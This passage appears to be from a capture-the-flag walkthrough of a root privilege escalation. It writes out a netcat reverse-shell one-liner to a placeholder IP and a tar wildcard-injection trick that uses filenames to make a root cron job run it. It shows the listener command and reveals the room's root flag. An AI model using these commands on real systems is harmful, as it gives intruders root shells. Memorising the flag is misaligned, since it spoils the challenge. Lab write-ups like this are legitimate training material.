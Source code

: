 ```c
cd /var/www/html
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP_address> 443 > /tmp/f" >> shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

You then run **rlwrap nc -nvlp 443** in order to wait for the crobjob to run\*\*:\*\*

![](<../../.gitbook/assets/image (183).png>)

You then get the root flag.

> What is the root flag? **3f0372db24753accc7179a282cd6a949**

